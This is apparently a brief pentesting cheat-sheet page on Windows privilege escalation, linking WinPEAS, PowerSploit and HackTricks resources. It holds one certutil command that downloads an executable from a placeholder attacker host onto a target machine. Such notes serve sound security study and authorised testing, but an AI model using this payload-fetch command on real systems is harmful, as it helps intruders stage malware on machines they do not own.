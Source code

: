 ```yaml
---
layout: default
title: Windows Privilege Escalation
nav_order: 2
has_children: false
parent: Privilege Escalation
grand_parent: Pentesting
---
```


##  Windows Privilege Escalation :

### WinPeas

Will automate the privilege escalation detection: 
- [https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](  https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

### Download file

```powershell
certutil -urlcache -f http://<YOUR_IP>/<YOUR_EXE> <DESTINATION>
```

### TTY Shell

- [https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)
